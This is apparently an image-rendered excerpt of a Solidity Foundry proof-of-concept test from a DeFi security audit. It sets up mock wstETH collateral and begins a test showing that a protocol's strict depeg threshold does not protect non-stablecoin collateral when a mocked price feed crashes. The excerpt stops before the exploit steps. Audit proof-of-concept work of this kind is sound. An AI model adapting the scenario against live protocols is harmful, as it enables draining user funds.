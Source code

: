 ```solidity

        // 5. Add wstETH to token mapping
        tokenMapping.addEth0CollateralToken(address(_mockWstEth));

        // 6. Grant necessary roles for DaoCollateral
        registryAccess.grantRole(ETH0_MINT, address(_daoCollateralPoc));
        registryAccess.grantRole(ETH0_BURN, address(_daoCollateralPoc));
        registryAccess.grantRole(MINT_CAP_OPERATOR, _admin);

        // 7. Setup approvals for test scenarios
        vm.startPrank(_attacker);
        _mockWstEth.approve(address(_daoCollateralPoc), type(uint256).max);
        vm.stopPrank();

        vm.stopPrank();

        // Set strict depeg threshold to demonstrate the vulnerability
        vm.prank(_admin);
        classicalOracle.setMaxDepegThreshold(_MAX_DEPEG_THRESHOLD_STRICT);

        // Verify initial oracle prices
        uint256 initialWstEthPriceOracle = classicalOracle.getPrice(address(_mockWstEth));
        uint256 expectedInitialWstEthPriceOracle = Normalize.tokenAmountToDecimals(
            initialWstEthPriceRaw, uint8(_PRICE_FEED_DECIMALS_WSTETH), uint8(_ORACLE_PRICE_PRECISION)
        );
        assertEq(initialWstEthPriceOracle, expectedInitialWstEthPriceOracle, "Initial mWSTETH price from oracle mismatch");
    }

    function testPocNonStablecoinDepegExploit() public {
        console.log("\n=== PoC: Non-Stablecoin (wstETH) Price Crash Exploit ===");
        console.log("Description: Demonstrates that strict depeg thresholds don't protect non-stablecoins");
        console.log("Impact: Attackers can exploit crashed non-stablecoin prices even with strict thresholds");
        console.log("");

        console.log("--- Phase 1: Verify Strict Depeg Threshold Setup ---");
        uint256 strictThreshold = classicalOracle.getMaxDepegThreshold();
        console.log("Current depeg threshold: 500 bps (5%)");
        console.log("Note: This threshold only applies to stablecoins, NOT wstETH");
        assertEq(strictThreshold, _MAX_DEPEG_THRESHOLD_STRICT);
        console.log(" Strict threshold verified");
        console.log("");

        console.log("--- Phase 2: Simulate wstETH Price Crash ---");
        uint256 initialWstEthPrice = classicalOracle.getPrice(address(_mockWstEth));
        console.log("Initial wstETH price: $", initialWstEthPrice / 1e18);
        
        // Dramatically crash wstETH price (from $3000 to $30 = 99% crash)
        uint256 crashedWstEthPriceRaw = 30 * (10**_PRICE_FEED_DECIMALS_WSTETH); // $30 in 8 decimals
        console.log("Simulating extreme wstETH price crash: $3000 -> $30 (99% decrease)");
        
        _chainlinkMockWstEthPriceFeed.setRoundData(
            2, // roundId
            int256(crashedWstEthPriceRaw), // answer
            block.timestamp, // startedAt  
            block.timestamp, // updatedAt
            2 // answeredInRound
        );
        
```